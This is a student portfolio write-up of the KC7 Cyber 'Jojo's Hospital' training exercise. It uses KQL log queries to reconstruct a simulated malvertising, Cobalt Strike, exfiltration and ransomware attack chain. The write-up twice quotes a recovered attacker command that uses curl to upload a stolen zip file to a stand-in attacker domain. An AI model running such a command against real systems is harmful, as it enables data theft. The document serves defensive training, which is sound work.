

# Cybersecurity Portfolio - Week 3, Day 20

## Topic: KC7 Cyber Incident Response — Jojo's Hospital Two-Stage Ransomware Investigation (`SharkFin7` & `LockByte`)

**Objective:**
Conduct an end-to-end threat hunting and incident response investigation using **Kusto Query Language (KQL)** in Azure Data Explorer (**KC7 Cyber — Jojo's Hospital**). Reconstruct a two-stage cyberattack involving an **Initial Access Broker (`SharkFin7`)** and a **Ransomware-as-a-Service (RaaS) affiliate (`LockByte`)** by correlating telemetry across `OutboundNetworkEvents`, `FileCreationEvents`, and `ProcessEvents`.


*(Screenshot: Official KC7 Cyber Jojo's Hospital completion badge earned after solving all 27 investigation challenges)*

---

### :hammer_and_wrench: Tools & Environment

* **SIEM / Log Analytics Platform:** KC7 Cyber (`kc7001.eastus.JoJosHospital` — Azure Data Explorer / KQL)
* **Log Telemetry Audited:** `OutboundNetworkEvents`, `FileCreationEvents`, `ProcessEvents`, `PassiveDns`, `Employees`
* **Threat Actors Identified:**
  * **Stage 1 (Initial Access Broker):** `SharkFin7`
  * **Stage 2 (Ransomware Group):** `LockByte`
* **MITRE ATT&CK Mapping:** `T1583.008` (Malvertising), `T1204.002` (Malicious File), `T1071.001` (Cobalt Strike C2), `T1059.003` (Windows Command Shell), `T1567` (Exfiltration Over Web Service), `T1486` (Data Encrypted for Impact)

---

### :rotating_light: Executive Summary: The Two-Stage Attack Lifecycle

Modern ransomware incidents rarely involve a single threat group executing the entire intrusion from start to finish. Through KQL log correlation across Jojo's Hospital (Lexington, Kentucky), I uncovered a two-stage handoff between two specialized cybercriminal groups:

1. **Stage 1 — Initial Access Broker (`SharkFin7`):** Instead of traditional email phishing, `SharkFin7` used **malvertising (fake web advertisements)** impersonating a fast-food promotion (`raisinkanes.com`) to redirect hospital staff to attacker infrastructure (`totally-legit-domain.com` and `nothing-to-see-here.net`) and trick them into downloading a weaponized Word document (`Raisin_Kane_Promo_Offer.docx`). Within $27\text{ seconds}$ of execution on Patient Zero's workstation (`RQJQ-MACHINE`), the lure dropped a **Cobalt Strike** C2 payload (`C:\ProgramData\cobaltstrike.exe`).
2. **Stage 2 — Lateral Movement, Exfiltration & Ransomware (`LockByte`):** Using the Cobalt Strike foothold, the attackers pivoted laterally across the hospital network to `AMFB-MACHINE` (`andavis`), compressed sensitive network documentation into `important_network_info.zip`, and exfiltrated it via `cmd.exe` and `curl` to `https://nothing-to-see-here.net/upload`. `SharkFin7` then sold this established network access to the **`LockByte`** ransomware group, who deployed ransomware across critical hospital systems for double extortion.

---

### :mag: Part 1: Initial Access — Malvertising & Patient Zero (`RQJQ-MACHINE`)

Rather than entering through an inbound email attachment, network and file creation telemetry revealed that hospital employees clicked a fake promotional advertisement (`raisinkanes.com`) in their web browsers (`chrome.exe` and `edge.exe`), which redirected to staging domains (`totally-legit-domain.com` and `nothing-to-see-here.net`) hosting a malicious `.docx` file.

**KQL Queries Used to Identify the Lure & Patient Zero:**

```kusto
OutboundNetworkEvents
| where url has "raisinkanes.com"
| distinct src_ip

OutboundNetworkEvents
| where url has_any ("totally-legit-domain.com", "nothing-to-see-here.net") and url has "docx"

FileCreationEvents
| where filename == "Raisin_Kane_Promo_Offer.docx"
| sort by timestamp asc
```

**Key Forensic Findings (`KC7-Jojo's-Hospital.jpg`):**
* **Malicious Lure Filename:** `Raisin_Kane_Promo_Offer.docx`
* **Patient Zero (First Victim):** User **`evbrowne`** on host **`RQJQ-MACHINE`**
* **Initial Download Timestamp:** **`2024-05-01 09:56:50 AM`**
* **File Path:** `C:\Users\evbrowne\Downloads\Raisin_Kane_Promo_Offer.docx` (downloaded via `chrome.exe`)
* **SHA-256 Hash (`Raisin_Kane_Promo_Offer.docx`):** `bd886046266b909a8ca5f19f16e5606baf73194a70632c81fdc4...`
* **Additional Victims:** Over the next $48\text{ hours}$ (`2024-05-01` to `2024-05-03`), multiple other hospital employees (`loortiz`, `mawilliams1`, `rucarbonaro`, `chkim`, `gemattingly`, `wibuck`, `aljean`, `shgossett`) downloaded the same malvertising lure across `chrome.exe` and `edge.exe`.


*(Screenshot: Querying `OutboundNetworkEvents` and `FileCreationEvents` in KQL to pinpoint Patient Zero (`evbrowne` on `RQJQ-MACHINE`) downloading `Raisin_Kane_Promo_Offer.docx` at `9:56:50 AM`)*

---

### :biohazard: Part 2: Execution & Command-and-Control (`cobaltstrike.exe`)

To determine what happened immediately after `evbrowne` opened `Raisin_Kane_Promo_Offer.docx` on `RQJQ-MACHINE`, I pivoted to `FileCreationEvents` filtered to `RQJQ-MACHINE` between May 1 and May 2, 2024:

```kusto
FileCreationEvents
| where hostname == "RQJQ-MACHINE" and timestamp between (datetime(5/1/2024) .. datetime(5/2/2024))
| sort by timestamp asc
```

**Key Forensic Findings (`KC7-Jojo's-Hospital2.jpg`):**
* Exactly **$27\text{ seconds}$** after `Raisin_Kane_Promo_Offer.docx` was written to disk (`9:56:50 AM`), a malicious executable was dropped onto `RQJQ-MACHINE`:
  * **Drop Timestamp:** **`2024-05-01 09:57:17 AM`**
  * **Malicious Binary:** **`cobaltstrike.exe`**
  * **Full Staging Path:** `C:\ProgramData\cobaltstrike.exe` *(Note: `C:\ProgramData\` is a classic hidden staging folder favored by threat actors because it is writable by local processes and hidden from standard desktop views).*
  * **Spawning Process:** `explorer.exe`
  * **SHA-256 Hash (`cobaltstrike.exe`):** `0e7e0e888f22b5cc83ce502560f9f331d8...`


*(Screenshot: Discovering `C:\ProgramData\cobaltstrike.exe` dropped on `RQJQ-MACHINE` at `9:57:17 AM`, 27 seconds after the `.docx` lure download)*

---

### :outbox_tray: Part 3: Lateral Movement, LOLBin Data Exfiltration & `LockByte` Ransomware

After establishing a Cobalt Strike C2 foothold on `RQJQ-MACHINE`, `SharkFin7` moved laterally across the hospital environment, compromising user **`andavis`** on workstation **`AMFB-MACHINE`**. Querying `ProcessEvents` on `AMFB-MACHINE` between May 13 and May 17, 2024 revealed the attackers abusing native Windows **LOLBins (`cmd.exe` and `curl.exe`)** to exfiltrate sensitive network architecture files prior to the **`LockByte`** ransomware deployment:

```kusto
ProcessEvents
| where hostname == "AMFB-MACHINE"
| where process_commandline contains "cobalt"
| sort by timestamp asc

ProcessEvents
| where hostname == "AMFB-MACHINE"
| where timestamp between (datetime(2024-05-13) .. datetime(2024-05-17))
| where process_commandline contains "curl"
```

**Key Forensic Findings (`KC7-Jojo's-Hospital3.jpg`):**
* **Exfiltration Timestamp:** **`2024-05-16 01:39:48 PM`**
* **Compromised Host & Account:** `AMFB-MACHINE` / `andavis`
* **Parent Process / Process Name:** `cmd.exe` $\rightarrow$ `cmd.exe` (`SHA256: 2347a39f24e593c763c9871d7f09371...`)
* **Exact Exfiltration Command Line:**
  ```cmd
  cmd.exe /c curl -F "file=@C:\Users\andavis\Desktop\important_network_info.zip" https://nothing-to-see-here.net/upload
  ```
* **Ransomware Handoff (`LockByte`):** Following the theft of `important_network_info.zip`, `SharkFin7` sold their persistent access to the **`LockByte`** ransomware group, who used the stolen network map and foothold to encrypt critical hospital systems and demand ransom.


*(Screenshot: Tracing lateral movement to `AMFB-MACHINE` (`andavis`), capturing data exfiltration via `cmd.exe /c curl`, and completing the 27-question breach reconstruction)*

---

### :stopwatch: Part 4: Master Incident Timeline & Indicators of Compromise (IOCs)

| Timestamp (UTC) | Hostname | User | Event / Table | Technical Evidence & Activity Summary |
| :--- | :--- | :--- | :--- | :--- |
| `2024-05-01 09:56:50` | `RQJQ-MACHINE` | `evbrowne` | `FileCreationEvents` | **Initial Access (`SharkFin7`):** Patient Zero clicked a malvertising ad (`raisinkanes.com`), downloading `C:\Users\evbrowne\Downloads\Raisin_Kane_Promo_Offer.docx` via `chrome.exe`. |
| `2024-05-01 09:57:17` | `RQJQ-MACHINE` | `evbrowne` | `FileCreationEvents` | **C2 Implant Staging:** `C:\ProgramData\cobaltstrike.exe` dropped onto disk $27\text{ seconds}$ after the malicious Word document download. |
| `2024-05-01` – `05-03` | Multiple Hosts (`XEIM-LAPTOP`, etc.) | `loortiz`, `mawilliams1`, etc. | `FileCreationEvents` | $23$ additional downloads of `Raisin_Kane_Promo_Offer.docx` across hospital endpoints via `chrome.exe` and `edge.exe`. |
| `2024-05-16 13:39:48` | `AMFB-MACHINE` | `andavis` | `ProcessEvents` | **Exfiltration via LOLBins:** Attacker executed `cmd.exe /c curl -F "file=@C:\Users\andavis\Desktop\important_network_info.zip" https://nothing-to-see-here.net/upload`. |
| Post-Exfiltration | Hospital Network | Multiple | RaaS Deployment | **`LockByte` Ransomware Impact:** `SharkFin7` sold network access to `LockByte`, resulting in hospital-wide file encryption and extortion. |

---

### :bulb: Conclusion

Successfully completed all 27 investigative challenges in **KC7 Cyber's Jojo's Hospital Ransomware Investigation**. By pivoting across network, file creation, and process execution tables in KQL, I reconstructed the complete attack chain from `SharkFin7`'s malvertising lure (`Raisin_Kane_Promo_Offer.docx`) and `cobaltstrike.exe` C2 implant to LOLBin-driven data exfiltration (`curl`) and the final `LockByte` ransomware deployment.